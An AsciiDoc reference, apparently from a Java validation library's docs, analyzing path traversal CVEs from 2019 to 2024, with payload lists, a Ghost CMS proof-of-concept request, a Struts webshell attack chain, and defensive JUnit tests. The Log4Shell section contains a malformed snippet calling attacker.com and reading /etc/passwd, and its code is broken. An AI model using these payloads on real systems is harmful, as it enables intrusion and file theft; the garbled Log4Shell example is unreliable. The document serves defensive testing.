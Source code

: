 = Path Traversal CVE Analysis
:toc: left
:toclevels: 3
:sectnums:
:icons: font

link:../README.adoc[← Back to Documentation Index]

== Overview

This document analyzes critical path traversal CVEs from 2019-2024, focusing on attack patterns and exploitation techniques relevant for security validation implementation.

== CVEs (2019-2024)

=== 2024 Vulnerabilities

==== CVE-2024-38819 - Spring Framework
[cols="1,3"]
|===
|**CVSS Score** |High (specific score pending)
|**Affected Versions** |Spring WebMvc.fn and WebFlux.fn
|**Attack Vector** |Double URL encoding bypass
|**Impact** |Complete path restriction bypass
|**Exploitation** |`%252e%252e%252f` decoded twice becomes `../`
|**Fix** |Proper handling of multiple encoding layers
|===

**Technical Details:**
[source,java]
----
// Vulnerable pattern
String path = URLDecoder.decode(userInput, "UTF-8");
// After first decode: %2e%2e%2f
// After second decode: ../
----

**Source**: Spring Security Advisory 2024

=== 2023 Vulnerabilities

==== CVE-2023-50164 - Apache Struts 2
[cols="1,3"]
|===
|**CVSS Score** |9.8 (Critical)
|**Affected Versions** |2.0.0-2.3.37, 2.5.0-2.5.32, 6.0.0-6.3.0
|**Attack Vector** |File upload parameter manipulation
|**Impact** |Remote Code Execution via JSP shell upload
|**Exploitation** |Upload malicious JSP to web-accessible directory
|**Patch** |Struts 2.5.33, 6.3.0.2
|===

**Attack Chain:**

1. Identify vulnerable Struts application
2. Craft malicious file upload request
3. Use path traversal to control upload location
4. Upload JSP webshell
5. Access webshell for RCE

**Source**: Apache Struts Security Bulletin S2-066

==== CVE-2023-32235 - Ghost CMS
[cols="1,3"]
|===
|**CVSS Score** |6.5 (Medium)
|**Affected Versions** |Ghost < 5.42.1
|**Attack Vector** |URL-encoded path traversal in asset handling
|**Impact** |Access to sensitive files (package.json, configs)
|**Exploitation** |`/assets/built%2F..%2F..%2F/package.json`
|**Fix** |Ghost 5.42.1
|===

**Proof of Concept:**
[source,http]
----
GET /assets/built%2F..%2F..%2F/package.json HTTP/1.1
Host: vulnerable-ghost.com
----

**Source**: Ghost Security Advisory GHSA-r97q-ghch-82j9

=== 2022 Vulnerabilities

==== CVE-2022-23457 - OWASP ESAPI
[cols="1,3"]
|===
|**CVSS Score** |7.5 (High)
|**Affected Versions** |ESAPI < 2.3.0.0
|**Attack Vector** |Validator.getValidDirectoryPath() bypass
|**Impact** |Complete containment check bypass
|**Exploitation** |Absolute paths bypass parent directory checks
|**Fix** |ESAPI 2.3.0.0
|===

**Vulnerable Code Pattern:**
[source,java]
----
// Vulnerability: Accepts absolute paths
validator.getValidDirectoryPath("test", "/etc/passwd", baseDir, false);
// Returns /etc/passwd instead of throwing exception
----

**Source**: OWASP ESAPI Security Advisory

=== 2021 Vulnerabilities

==== CVE-2021-44228 - Log4Shell (Related Impact)
[cols="1,3"]
|===
|**CVSS Score** |10.0 (Critical)
|**Affected Versions** |Log4j 2.0-beta9 to 2.15.0
|**Attack Vector** |JNDI injection leading to RCE
|**Path Traversal Aspect** |Post-exploitation file system access
|**Impact** |Complete system compromise
|**Fix** |Log4j 2.17.0
|===

**Path Traversal in Exploitation Chain:**
[source,java]
----
// After initial RCE via JNDI
${
    ldap:
//attacker.com/Exploit}
// Payload performs path traversal to access:
    Runtime.exec("cat /etc/passwd");
Runtime.exec("cat ../../config/database.properties
----

==== CVE-2021-29425 - Apache Commons IO
[cols="1,3"]
|===
|**CVSS Score** |4.8 (Medium)
|**Affected Versions** |Commons IO < 2.7
|**Attack Vector** |Malformed paths like `//../foo`
|**Impact** |Limited parent directory access
|**Exploitation** |`FileNameUtils.normalize("//../foo")` returns `//../foo`
|**Fix** |Commons IO 2.7
|===

**Test Case Demonstrating Vulnerability:**
[source,java]
----
// Vulnerable behavior
String normalized = FileNameUtils.normalize("//../foo");
// Expected: null (invalid path)
// Actual: "//../foo" (unchanged, allows traversal)
----

=== 2020 Vulnerabilities

==== CVE-2020-8908 - Google Guava
[cols="1,3"]
|===
|**CVSS Score** |3.3 (Low)
|**Affected Versions** |All Guava versions
|**Attack Vector** |World-readable temp directory permissions
|**Impact** |Information disclosure in multi-user systems
|**Exploitation** |Other users can read temp files
|**Fix** |Method deprecated, use Java NIO
|===

**Vulnerable Pattern:**
[source,java]
----
// Creates directory with permissions 777 on Unix
File tempDir = Files.createTempDir();
// Other users can access: /tmp/guava-user-12345/
----

=== 2019 Vulnerabilities

==== CVE-2019-11358 - jQuery (Path Traversal via Prototype Pollution)
[cols="1,3"]
|===
|**CVSS Score** |6.1 (Medium)
|**Affected Versions** |jQuery < 3.4.0
|**Attack Vector** |Prototype pollution leading to path manipulation
|**Impact** |Client-side path traversal
|**Fix** |jQuery 3.4.0
|===


== Attack Pattern Evolution

=== Traditional Patterns (Pre-2020)
----
../../../etc/passwd
..\..\windows\system32\config\sam
../../../../proc/self/environ
----

=== Modern Patterns (2020-2024)
----
// Double encoding
%252e%252e%252f%252e%252e%252f

// Unicode variants
\u002e\u002e\u002f

// Mixed encoding
..%c0%af..%c0%af

// Null byte injection
../../../../etc/passwd%00.jpg

// Case variation (Windows)
..\\..\\/windows//system32

// URL + HTML encoding
%26%2346%3b%26%2346%3b%26%2347%3b
----

=== Emerging Patterns (2024+)
* Cloud API traversal patterns
* GraphQL query manipulation
* WebSocket path injection
* HTTP/2 and HTTP/3 specific patterns
* REST API path manipulation


== Test Cases from CVEs

[source,java]
----
@Test
public void testCVE_2021_29425_Pattern() {
    // Apache Commons IO vulnerability pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("//../sensitive/file"));
}

@Test
public void testCVE_2023_32235_Encoding() {
    // Ghost CMS URL encoding pattern
    assertThrows(SecurityException.class, () -> 
        validatePath("assets/built%2F..%2F..%2F/config"));
}

@Test
public void testCVE_2023_50164_FileUpload() {
    // Apache Struts upload traversal
    String filename = "../../webapps/shell.jsp";
    assertThrows(SecurityException.class, () -> 
        validateUploadPath(filename));
}

@Test
public void testHttpHeaderInjection() {
    // HTTP header injection pattern
    String header = "X-Original-URL: /../../admin";
    assertThrows(SecurityException.class, () -> 
        validateHttpHeader(header));
}

@Test
public void testDoubleEncoding() {
    // Spring Framework double encoding
    String input = "%252e%252e%252f%252e%252e%252f";
    assertThrows(SecurityException.class, () -> 
        validateAfterDecoding(input));
}
----


== References

=== Vulnerability Databases

* link:https://nvd.nist.gov/[National Vulnerability Database (NVD)]
* link:https://cve.mitre.org/[MITRE CVE Database]
* link:https://www.cisa.gov/known-exploited-vulnerabilities-catalog[CISA Known Exploited Vulnerabilities Catalog]
* link:https://snyk.io/vuln/[Snyk Vulnerability Database]
* link:https://github.com/advisories[GitHub Security Advisories]
* link:https://www.cvedetails.com/[CVE Details]

=== Security Organizations

* link:https://owasp.org/[OWASP - Open Web Application Security Project]
* link:https://cwe.mitre.org/data/definitions/22.html[CWE-22: Path Traversal]
* link:https://attack.mitre.org/[MITRE ATT&CK Framework]

=== Vendor Security Advisories

* link:https://commons.apache.org/security.html[Apache Security]
* link:https://spring.io/security[Spring Security Advisories]
* link:https://github.com/google/guava/wiki/SecurityAdvisories[Google Guava Security]
* link:https://www.atlassian.com/trust/security/advisories[Atlassian Security Advisories]
* link:https://helpx.adobe.com/security.html[Adobe Security Bulletins]

=== Research and Documentation

* link:https://portswigger.net/web-security/file-path-traversal[PortSwigger Web Security Academy]
* link:https://www.sans.org/top25-software-errors/[SANS Top 25 Software Errors]
* link:https://research.checkpoint.com/[Check Point Research]

